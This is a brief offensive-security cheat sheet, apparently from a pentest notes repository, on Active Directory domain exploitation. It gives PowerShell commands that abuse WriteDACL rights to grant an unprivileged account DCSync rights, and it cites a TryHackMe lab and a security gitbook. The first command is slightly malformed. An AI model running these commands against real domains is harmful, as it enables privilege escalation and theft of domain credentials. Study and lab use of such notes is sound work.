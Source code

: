 # Active Directory Domain Exploitation

`WriteDACL` to a domain, give DCSync rights to an unprivileged domain user account
```powershell
AddDomainObjectAcl -TargetIdentity "DC=,DC=local" -PrincipleIdentity $user -Rights DCSync
# Deprecate way
Add-DomainObjectAcl -Credential $Cred -TargetIdentity $domain.local -Rights DCSync
```


## References

[THM Room Exploiting AD](https://tryhackme.com/room/exploitingad)
[burmat](https://burmat.gitbook.io/security/hacking/domain-exploitation)